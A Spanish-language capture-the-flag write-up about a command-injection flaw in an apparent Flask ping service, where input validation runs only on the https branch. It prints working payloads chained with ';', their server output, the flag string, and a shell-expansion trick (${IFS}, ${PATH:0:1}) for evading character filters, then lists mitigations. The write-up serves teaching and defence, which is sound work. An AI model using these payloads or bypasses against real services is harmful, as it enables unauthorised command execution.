El `is_safe_input` de este código usa una allowlist:

```python
re.compile(r'^[a-zA-Z0-9_\-\.]+$')   # solo letras, dígitos, _  -  .
```

Con `^…$`, la entrada **entera** debe estar formada *solo* por letras, dígitos, `_`, `-` y `.`.
Si aparece **cualquier otra cosa** (`;`, espacio, `/`, `$`, `|`…) → no cumple → rechazada.

| | Cómo funciona | Problema |
|---|---|---|
| **blocklist** | "prohíbe `;`, `\|`, `&`…" y permite el resto | Frágil: siempre olvidas un metacarácter (`` ` ``, `$()`, `\n`…) |
| **allowlist** | "permite solo letras/dígitos" y prohíbe el resto | Robusto: lo no permitido explícitamente, se bloquea |

Aquí está la ironía del reto: **la validación estaba bien hecha.** Una allowlist estricta es
justo lo recomendado, y de hecho bloquea `;`, espacios, `$()`, todo — de una. El fallo no fue
*cómo* validaba, sino **dónde**: solo en la rama `https://`. Una defensa correcta, puesta en el
único camino que el atacante no usa.

</details>

La única barrera que sobrevive es la del propio regex: el host se captura como `[^/]+`, así
que **no puede contener el carácter `/`**. Es la restricción con la que hay que convivir.

<details>
<summary>🔍 Explica el patrón <code>[^/]+</code> paso a paso</summary>

Un *regex* (expresión regular) es una forma de describir un patrón de texto. Vamos a leer
`[^/]+` construyéndolo de a poco, con el ejemplo `abc/def`.

**1. Los corchetes `[ ]` = "un carácter de este tipo".**
`[abc]` significa "un carácter que sea `a`, `b` o `c`". Coincide con **una** letra a la vez, no
con la palabra entera.

**2. El `^` pegado tras el `[` = "excepto" (niega el conjunto).**
`[^abc]` le da la vuelta: "un carácter que **no** sea `a`, `b` ni `c`".

> ⚠️ Ese `^` significa "excepto" **solo dentro de los corchetes**. El mismo símbolo `^` al
> principio de un regex (fuera de corchetes) significa otra cosa: "inicio del texto". Mismo
> carácter, dos significados según dónde esté. En nuestro regex `^(https?://)([^/]+)` aparecen
> los dos: el primero ancla el inicio; el de dentro de `[^/]` niega.

**3. Metemos `/` dentro: `[^/]` = "un carácter que no sea una barra".**
Cualquier cosa —letras, números, `;`, espacios, `$`— **menos** `/`.

**4. El `+` = "uno o más, seguidos".**
`[^/]+` = "una racha de uno o más caracteres, y **ninguno** puede ser `/`".

**Ahora míralo funcionar sobre `abc/def`.** El motor lee de izquierda a derecha y va tomando
caracteres mientras se cumpla la regla; en cuanto falla, se detiene:

```
a   b   c   /   d   e   f
✓   ✓   ✓   ✗
└───────┘   └── la primera "/" rompe la regla → aquí para
 [^/]+ toma "abc"
```

Toma `a`, `b`, `c` (ninguno es `/`), llega a la `/` → deja de coincidir → **se detiene**. Nunca
cruza la barra. En una frase: **`[^/]+` agarra texto hasta la primera `/`.**

**Aplicado al código del reto**, `^(https?://)([^/]+)` sobre `http://127.0.0.1:3000/algo`:

- `^` → empieza desde el inicio del texto.
- `(https?://)` → consume literalmente `http://` (el `?` hace la `s` opcional, así acepta
  `http` o `https`).
- `([^/]+)` → captura `127.0.0.1:3000` y **se detiene en la `/`** de antes de `algo`.

Ese grupo capturado —`127.0.0.1:3000`— es el "host" que el programa mete en el comando `ping`.
Como `[^/]+` frena en la primera `/`, **ese host nunca puede contener una `/`**. Por eso todos
nuestros payloads de inyección tienen que arreglárselas sin usar `/`.

</details>

### Por qué `file://` fallaba y `http://` funciona

El regex ancla en `^(https?://)`. `file:///etc/passwd` no empieza por `http://` ni
`https://`, así que `check_url` cae al `else` y devuelve `"Invalid"`. La misma coincidencia
de esquema que rechaza `file://` es la que deja pasar `http://` sin filtrar. La defensa y el
agujero comparten la misma línea.

---

## Explotación

### Paso 1 — Un helper para leer el resultado

Cada vez que atacamos, el servidor nos devuelve **toda la página HTML** (la interfaz neón
completa), pero a nosotros solo nos interesa el texto del `Execution Result`. En vez de leer a
ojo esa marabunta de HTML en cada intento, creamos una función que lo hace por nosotros:
pide la URL, recorta el bloque del resultado y le quita las etiquetas HTML.

```bash
T=http://192.168.200.100:3000
show(){ curl -s "$T/send?url=$1" | sed -n '/class="result"/,/<\/div>/p' | sed 's/<[^>]*>//g'; }
```

<details>
<summary>🔍 Explica el comando — la función <code>show()</code></summary>

Son **dos líneas**: una guarda la dirección base, la otra define una función que la reutiliza.

**Línea 1 — una variable para no repetir la URL:**
```bash
T=http://192.168.200.100:3000
```
`T` guarda la base del objetivo. A partir de ahora, `$T` vale esa dirección. Ahorra teclear la
IP y el puerto en cada comando.

**Línea 2 — la función `show`.** `nombre(){ … ; }` **define** una función (una orden reutilizable).
Al llamar `show 'algo'`, el `'algo'` entra en la función como `$1` (su primer argumento).
Dentro hay **tres etapas encadenadas por *pipes* (`|`)**, donde la salida de cada una alimenta
a la siguiente:

```bash
curl -s "$T/send?url=$1"                  # 1. hace la petición
  | sed -n '/class="result"/,/<\/div>/p'  # 2. recorta el bloque del resultado
  | sed 's/<[^>]*>//g'                    # 3. borra las etiquetas HTML
```

1. **`curl -s "$T/send?url=$1"`** — dispara la petición a `…:3000/send?url=<tu_payload>`. El
   `$1` es lo que le pases al llamar `show`. Devuelve la página HTML completa.
2. **`sed -n '/class="result"/,/<\/div>/p'`** — de toda esa página, imprime **solo** las líneas
   entre la que contiene `class="result"` y la que contiene `</div>`. El `-n` le dice a `sed`
   "no imprimas nada por defecto", y el `…,…p` marca un **rango** ("desde esta línea hasta esta
   otra, imprímelo"). Resultado: nos quedamos con el bloque del `Execution Result`, tirando el
   resto de la página.
3. **`sed 's/<[^>]*>//g'`** — borra las etiquetas HTML. `s/patrón//g` significa "reemplaza el
   patrón por nada, todas las veces (`g`)". El patrón `<[^>]*>` es "un `<`, luego cualquier cosa
   que no sea `>`, hasta el `>`" — es decir, **cualquier etiqueta** como `<p>` o `<h5>`. Deja
   solo el texto limpio.

> 💡 ¿Reconoces `[^>]` del regex del Paso 4? Es la misma idea que `[^/]`: "cualquier carácter
> **excepto** este". Antes excluíamos `/`; aquí excluimos `>` para no comernos de más al borrar
> una etiqueta.

**En resumen:** `show '<payload>'` = *pide → recorta el resultado → limpia el HTML* → te imprime
solo la salida del comando. Es comodidad, no parte del exploit: podrías hacer el mismo `curl` a
mano cada vez, pero repetirlo 20 veces sería tedioso.

</details>

### Paso 2 — Confirmar la ejecución de comandos

Construimos un payload que:

- usa el protocolo `http://` para esquivar `is_safe_input`,
- inyecta con `;` para terminar el `ping` y encadenar comandos,
- **no usa `/`** (lo prohíbe el regex `[^/]+`).

El espacio se codifica como `%20`. Payload: `http://;id;pwd;ls;`

```bash
show 'http://%3Bid%3Bpwd%3Bls%3B'
```

```
Execution Result
uid=1000(python) gid=1000(python) groups=1000(python)
/app
app.py
flag
requirements.txt
templates
ping: usage error: Destination address required
/bin/sh: 1: -c: not found
```

El comando que corrió en el servidor fue `ping ;id;pwd;ls; -c 1`:

- `ping ` sin host → `usage error` (inofensivo, es la parte que descartamos).
- `id` → ejecutamos como el usuario **`python`**.
- `pwd` → el directorio de trabajo es **`/app`**.
- `ls` → el directorio contiene un archivo llamado **`flag`**.
- ` -c 1` → sobra al final → `-c: not found` (inofensivo).

:::note[¿Sobre qué directorio corre `ls`? — el *cwd*]

Nunca le pasamos una ruta a `ls`, así que lista el **directorio de trabajo actual** (*cwd*, el
directorio donde el proceso "está parado"). ¿Cuál es? Lo dice el `pwd` de la línea anterior:
**`/app`**. Por eso el orden `id;pwd;ls` no es casual — `pwd` responde *dónde estás* y `ls`
*qué hay ahí*.

El cwd es `/app` porque la app Flask se ejecuta desde ahí (donde vive `app.py`). Nuestros
comandos inyectados **heredan el cwd del proceso que los ejecuta** — el servidor web —; no
arrancan en `/`. Y esto es un regalo para el exploit: como el `flag` está en el cwd, lo leeremos
con nombre **relativo** (`cat flag`), **sin `/`** — justo lo que exige la restricción `[^/]+`.
Si estuviera en `/root/flag`, tendríamos que fabricar la `/` con `${PATH:0:1}`.

:::

### Paso 3 — Leer el flag

El flag está en el cwd (`/app/flag`), así que lo referenciamos por nombre relativo —
**sin necesidad de `/`**. Solo hay que sortear el espacio de `cat flag` con `%20`:

```bash
show 'http://%3Bcat%20flag%3B'
```

```
Execution Result
flag_3c462f978e95e26eb2a50235903f82e4a09c5ab95decfac4aec8c58e8fef7915
```

<details>
<summary>🔀 Un payload alternativo — no hay una sola forma correcta</summary>

Nuestro payload deja que `ping` falle sin host (`http://;cat flag;` → `ping ;cat flag; -c 1`).
Otra variante igual de válida hace que `ping` corra primero contra un host real y *luego*
encadena el `cat`:

```
http://127.0.0.1 -c 0; cat flag;
```

El servidor arma `ping 127.0.0.1 -c 0; cat flag; -c 1`: primero un `ping` corto a `127.0.0.1`
(el `-c 0` lo termina enseguida), después el `;` encadena `cat flag`. Con `curl`, URL-encodeando
espacios y `;`:

```bash
show 'http://127.0.0.1%20-c%200%3B%20cat%20flag%3B'
```

Fíjate en un detalle clave: ese host inyectado —`127.0.0.1 -c 0; cat flag;`— contiene **espacios
y `;`**, y aun así pasa el filtro. ¿Por qué? Porque el regex captura el host como `[^/]+`:
prohíbe la `/`, pero **permite** espacios, `;`, `-`… todo lo demás. Por eso caben varios payloads
distintos: la única regla es "sin `/`".

**La lección:** en command injection rara vez hay un único payload correcto. Mientras respetes las
restricciones (aquí: protocolo `http://` y nada de `/`), la forma de encadenar es tuya.

</details>

## Flag

```
flag_3c462f978e95e26eb2a50235903f82e4a09c5ab95decfac4aec8c58e8fef7915
```

---

<details>
<summary>💬 El desarrollador SÍ escribió una función de validación (`is_safe_input`) con una allowlist correcta. ¿Por qué no sirvió de nada?</summary>

Porque la colocó dentro del `if protocol == 'https://'`. La validación solo se ejecuta en el
camino que el atacante nunca elige. El código "seguro" existe, pero está en la rama
equivocada. Lección: validar la entrada debe ser **incondicional**, no depender de un camino
"de confianza" que el atacante controla.

</details>

<details>
<summary>💬 El regex captura el host como <code>[^/]+</code>, así que el payload no puede contener <code>/</code>. Si el flag hubiera estado en <code>/root/flag</code> en vez de en el cwd, ¿cómo lo leerías?</summary>

Construyendo cada `/` sin teclearlo. `${PATH:0:1}` expande al primer carácter de la variable
`PATH`, que siempre empieza en `/`. El payload sería:

```
cat${IFS}${PATH:0:1}root${PATH:0:1}flag
```

`${IFS}` produce el espacio y `${PATH:0:1}` produce cada `/`. Ninguno de los dos caracteres
prohibidos aparece literalmente en la entrada.

</details>

<details>
<summary>💬 ¿Por qué la respuesta a <code>file:///etc/passwd</code> fue "Invalid" pero <code>http://;cat flag;</code> funcionó, si ambos intentan leer archivos del servidor?</summary>

El filtro es de **esquema**, no de contenido. `check_url` exige que la URL empiece por
`http://` o `https://`; `file://` no matchea y cae al `else` → `"Invalid"`. `http://` sí
matchea, y como no es `https://`, se salta la validación. El ataque no lee el archivo con un
esquema de URL — abusa del comando `ping` para ejecutar `cat`.

</details>

---

## ¿Qué aprendimos?

- **El nombre del campo no define el vector.** "url", "Healthcheck", "image upload" — todas
  sugerían SSRF. El comportamiento real (`ping`) reveló command injection. Confirma siempre
  con la salida, no con la etiqueta.
- **`shell=True` con entrada de usuario es RCE esperando a pasar.** La forma segura es
  `shell=False` + lista de argumentos, donde la entrada nunca es sintaxis de shell.
- **La validación condicional es tan buena como su condición.** Un filtro perfecto en la
  rama que el atacante evita no protege nada.
- **Un listado de directorios abierto convierte caja negra en caja blanca.** Leer `app.py`
  transformó un ataque a ciegas en uno guiado por la fuente.
- **Los filtros de caracteres se sortean con expansión del shell.** `${IFS}` sustituye
  espacios y `${PATH:0:1}` produce `/` — sin usar los caracteres prohibidos.

:::note[Callejón sin salida explorado]

La primera hipótesis fue **SSRF**: el campo pedía una URL, idéntico al ejercicio *My
WebView*. Se descartó al ver que la respuesta era la salida de `ping`, no el cuerpo de una
página descargada. También se probó `file:///etc/passwd` esperando lectura de archivos vía
esquema de URL — devolvió `"Invalid"`, porque el filtro exige prefijo `http(s)://`. El vector
real no era la URL en sí, sino el comando que la procesaba.

:::

---

## Mitigaciones

| Medida | Descripción |
|--------|-------------|
| **Nunca usar `shell=True` con entrada de usuario** | Usar `subprocess.Popen(["ping", host, "-c", "1"])` — la entrada es un argumento, no sintaxis de shell |
| **Validación incondicional** | Aplicar la allowlist a TODA entrada, no solo a una rama de protocolo |
| **Validar el destino, no el esquema** | Comprobar que `host` es una IP o dominio válido (`ipaddress`, `socket.gethostbyname`) antes de usarlo |
| **Principio de mínimo privilegio** | El proceso web corre como `python` (uid 1000), no como root — limita el daño, pero no lo evita |
| **No exponer el código fuente** | Deshabilitar el listado de directorios del servidor de archivos; no publicar `app.py` en una ruta accesible |
